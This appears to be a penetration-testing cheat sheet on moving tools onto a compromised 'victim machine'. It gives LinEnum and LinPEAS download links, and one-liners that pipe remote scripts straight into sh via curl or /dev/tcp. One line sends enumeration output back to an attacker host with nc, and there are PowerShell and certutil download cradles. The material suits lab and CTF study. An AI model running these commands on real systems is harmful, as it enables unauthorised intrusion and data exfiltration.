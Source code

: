 # Download tools

Resources to get what you need once in the victim machine



## Paste bins
- <https://snips.sh/>




- <https://github.com/andrew-d/static-binaries>



## Linux

### LinEnum

- <https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh>

```



LinEnum.sh -s -k keyword -r report -e /tmp/ -t



```














### LINPeas
```
# From github
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh

# Without curl
python -c "import urllib.request; urllib.request.urlretrieve('https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh', 'linpeas.sh')"

python3 -c "import urllib.request; urllib.request.urlretrieve('https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh', 'linpeas.sh')"


# Use a linpeas binary
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas_linux_amd64
chmod +x linpeas_linux_amd64
./linpeas_linux_amd64

# Output to file
./linpeas.sh -a > /dev/shm/linpeas.txt #Victim
less -r /dev/shm/linpeas.txt #Read with colors






# Local network
sudo python3 -m http.server 80 #Host
curl 10.10.10.10/linpeas.sh | sh #Victim

# Without curl
sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
cat < /dev/tcp/10.10.10.10/80 | sh #Victim

# Excute from memory and send output back to the host
nc -lvnp 9002 | tee linpeas.out #Host
curl 10.10.14.20:8000/linpeas.sh | sh | nc 10.10.14.20 9002 #Victim




```






## Windows

Valid PowerShell cmdlets/methods that can be used by malware to download additional files:
- Invoke-WebRequest
- Start-BitsTransfer
- system.Net.WebClient
- Invoke-RestMethod





### Invoke-WebRequest (In Powershell `curl` is an alias for this command)

```

# get a website content, save it as xx.html (iwr is alias of Invoke-WebRequest)
iwr "google.com" -outfile xx.html


$url = "http://192.168.1.10/example.txt"
$destination = "C:\Downloads\example.txt"
Invoke-WebRequest -Uri $url -OutFile $destination


# Download using PowerShell’s WebClient object
(new-object System.Net.WebClient).DownloadFile('http://[IP]/file.txt','dest/path/file.txt')

```



### CMD
```
certutil -urlcache -f http://[IP]/[FILENAME] [DEST FILENAME]

```

